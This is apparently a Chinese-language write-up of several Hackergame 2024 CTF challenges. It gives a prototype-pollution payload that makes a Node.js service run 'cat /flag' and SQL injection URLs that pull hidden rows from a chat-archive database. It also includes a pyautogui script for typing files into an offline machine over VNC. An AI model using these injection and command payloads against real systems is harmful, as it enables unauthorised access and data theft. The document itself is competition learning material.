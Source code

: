 `坛子岭` 以图搜图即可得到。

## 题目 5-6

没来得及，[四编组动车](https://www.china-emu.cn/)

# Node.js is Web Scale

直接就问[cladue](https://claude.site/artifacts/9ef35c7c-79cf-445e-ad45-a4c7e5791d6c)了，告诉我该用原型链污染。

`key`: `__proto__.pwn`

`value`: `cat /flag`

最后访问`/execute?cmd=pwn`即可。

# PaoluGPT

最直接的方法就是将列表里的的文章都下载下来，然后搜索内容即可找到flag1。

但是找到 flag2 是要靠sql注入的，同样 flag1 也能通过 sql注入找到，阅读源码找到注入点，访问相应的url即可。

flag1：`/view?conversation_id=' OR contents LIKE '%flag%';--`

flag2: 
`/view?conversation_id= union select id, title from messages where shown=false and '1'='1` 获取 id，然后拿id去访问页面。
或者`/view?conversation_id=' OR shown=false;--`

# 惜字如金 3.0

只做出了题目A，毕竟关键字补全就可以了。

# 无法获得的秘密

很有意思的一道题，你有一台无法联网的 linux 电脑，你只能通过vnc远程连接，只有鼠标键盘输入和图像输出，也无法复制粘贴，你能获取此电脑中的一个文件吗？

刚好之前看过一个利用二维码来传输文件的项目[qifi-dev/qrs](https://github.com/qifi-dev/qrs)，是个网页项目在浏览里显示二维码，同样也用浏览器调用摄像头在网页里接收文件，非常适合用来干这个。

首先我们要解决的是如何把项目代码传输进远程电脑里，不能直接传输文件又不能直接复制粘贴，难道要手敲吗？那还真是[^1]。。。

我们可以使用 pyautogui 来自动化，当然传输的是文本文件。

```python
# https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/players/KoiMeautily/readme.md#%E6%97%A0%E6%B3%95%E8%8E%B7%E5%BE%97%E7%9A%84%E7%A7%98%E5%AF%86
import time
import pyautogui

filename = 'server.py' # 你要传输的文本文件
with open(filename, 'r', encoding='utf-8') as file:
    content = file.read()

print("wait...")
time.sleep(5)  # 切换焦点到远程主机上
print("start.")
pyautogui.typewrite(content, interval=0.0001)
print("end.")
```
